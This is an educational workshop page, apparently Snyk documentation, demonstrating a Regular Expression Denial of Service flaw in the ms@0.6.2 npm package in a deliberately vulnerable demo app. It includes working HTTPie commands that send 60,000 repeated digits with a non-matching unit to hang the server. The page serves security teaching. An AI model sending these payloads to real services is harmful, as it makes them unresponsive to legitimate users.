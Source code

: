 # Example 3

Our third example vulnerability is with the [`ms`](https://www.npmjs.com/package/ms) [npm](https://www.npmjs.com/) package. This is a module that allows easy conversion of various time formats into milliseconds. The issue here is that we are using `ms@0.6.2` and this has a [Regular Expression Denial of Service \(ReDos\)](https://snyk.io/test/npm/ms/0.6.2) vulnerability.

![](https://github.com/snyk/user-docs/tree/695c746d1b207ffdf923b84e4590d31b29e2cc73/docs/partner-workshops/.gitbook/assets/vuln_ms.png)

What this package allows us to do is to take a string input and parse into milliseconds which our application will then use to send a reminder. For example:

![](http://g.recordit.co/tgye3UMxmo.gif)

To demonstrate this vulnerability, we will move to the terminal. Let's run the following command against our application:

```text
echo 'content=Reboot server in 20 minutes' | http --form $GOOF_HOST/create -v
```

 The result will be console output similar to this:

```text
POST /create HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 36
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: elb.amazonaws.com
User-Agent: HTTPie/2.1.0

content=Reboot server in 20 minutes

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 28
Content-Type: text/html; charset=utf-8
Date: Sat, 13 Jun 2020 21:20:16 GMT
ETag: W/"1c-41a86905"
Location: /
Vary: X-HTTP-Method-Override
X-Powered-By: Express

UmVib290IHNlcnZlciBbMjBtXQ==
```

A corresponding web result will look like this:

![](https://github.com/snyk/user-docs/tree/695c746d1b207ffdf923b84e4590d31b29e2cc73/docs/partner-workshops/.gitbook/assets/goof_ms_01.png)

Now we will take the previous command but print the digit 5 a total of 60,000 times. This regular expression will take a non-linear amount of time to process an input. The longer the input, the longer the processing time. Let's run the following command

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutes' | http --form $GOOF_HOST/create -v
```

The result here was surprisingly fast. However, what happens when the regular expression does not match? To illustrate this, let's take the same command and swap the _**s**_ in _**minutes**_ for an _**a**_ instead. Type the following command:

```bash
echo 'content=Reboot server in '\`printf "%.0s5" {1..60000}\`' minutea' | http --form $GOOF_HOST/create -v
```

This command will take a while to process and result in a non-responsive application. If you try to add or remove tasks the application will not respond and you have blocked legitimate requests from processing.

